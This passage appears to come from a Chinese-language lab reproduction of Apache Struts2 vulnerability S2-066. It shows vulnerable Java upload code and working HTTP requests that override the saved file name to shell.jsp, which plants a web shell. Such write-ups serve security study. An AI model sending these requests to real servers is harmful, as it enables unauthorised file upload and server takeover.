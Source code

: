 ```plain
        String realPath = path + File.separator +uploadFileName;
        try {
            FileUtils.copyFile(upload, new File(realPath));
        } catch (Exception e) {
            e.printStackTrace();
        }
        return SUCCESS;
    }

}
```

请求包

```plain
POST /S2_066_demo_war_exploded/upload.action HTTP/1.1
Host: localhost:9098
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: JSESSIONID=67F2A7C42488ED1B38910F7938FBAE8B
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfCZX2JnRcn31usNI
Content-Length: 187

------WebKitFormBoundaryfCZX2JnRcn31usNI
Content-Disposition: form-data; name="upload"; filename="aaa.tx1t"
Content-Type: text/plain

xxx
------WebKitFormBoundaryfCZX2JnRcn31usNI--
```

## 漏洞复现

使用如下包即可将上传文件名覆盖为 shell.jsp

```plain
POST /S2_066_demo_war_exploded/upload.action?uploadFileName=shell.jsp HTTP/1.1
Host: localhost:9098
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: JSESSIONID=67F2A7C42488ED1B38910F7938FBAE8B
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfCZX2JnRcn31usNI
Content-Length: 187

------WebKitFormBoundaryfCZX2JnRcn31usNI
Content-Disposition: form-data; name="Upload"; filename="aaa.tx1t"
Content-Type: text/plain

xxx
```